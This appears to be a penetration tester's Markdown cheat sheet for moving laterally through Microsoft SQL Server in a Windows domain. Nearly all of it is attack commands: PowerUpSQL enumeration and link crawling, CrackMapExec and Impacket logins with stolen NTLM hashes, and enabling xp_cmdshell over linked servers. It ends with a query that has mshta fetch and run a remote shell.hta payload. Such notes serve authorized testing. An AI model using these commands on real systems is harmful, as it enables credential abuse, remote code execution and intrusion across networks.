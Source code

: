 # MSSQL Lateral Movement

## 01 - Powershell

- Retrieving MSSQL SPN and domain

```
PS C:\> Get-SQLInstanceDomain

PS C:\> Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo

PS C:\> Get-SQLServerLinkCrawl -Instance "<IP>.<domain_name>,1433"

PS C:\> Get-SQLConnectionTest -Instance "<IP>.<domain_name>,1433" | fl

PS C:\> Get-SQLServerInfo -Instance "<IP>.<domain_name>,1433"

PS C:\> Get-SQLServerInfo -Instance "<IP>.<domain_name>,1433" -Query "<SQL Queries>"

PS C:\> Get-SQLServerInfo -Instance "<IP>.<domain_name>,1433" -Query "SELECT @@SERVERNAME"
```

## 02 - CrackMapExec

`$ crackmapexec mssql <IP>/<CIDR> -u "<username>" -H "<ntlm_hash>" -d <domain_name>`

## 03 - Impacket

TODO: Fill in this info

`$ mssqlclient -port 1433 -windows-auth <domain_name>/<username>:<password>@<IP>`

- Pass the Hash

`$ mssqlclient -port 1433 -windows-auth <domain_name>/<username>@<IP> -hashes :<nt_hash>`

## 04 - PowerUpSQL

### 4.1 - Invoke-SQLOSCmd

```
PS C:\> impo .\PowerUpSQL.ps1

PS C:\> Invoke-SQLOSCmd -Instance "<IP>.<domain_name>,1433" -Command "<command>" -RawResults
```

### 4.2 - Get-SQLServerLinkCrawl

```
PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Verbose

PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;')"

PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Query "exec master..xp_cmdshell 'mshta.exe http://<IP>/shell.hta'"
```

## 05 - Sqsh

`$ pth-sqsh`

---
## References

- [SS64: SQLCMD](https://ss64.com/sql/sqlcmd.html)

- [Microsoft Documentation: Invoke-SQLCMD](https://learn.microsoft.com/en-us/powershell/module/sqlserver/invoke-sqlcmd?view=sqlserver-ps)

- [MSSQL for Pentester Abusing Linked Database](https://www.hackingarticles.in/mssql-for-pentester-abusing-linked-database/)

- [SQL Server Link Crawling PowerUpSQL](https://www.netspi.com/blog/technical/network-penetration-testing/sql-server-link-crawling-powerupsql/)

- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)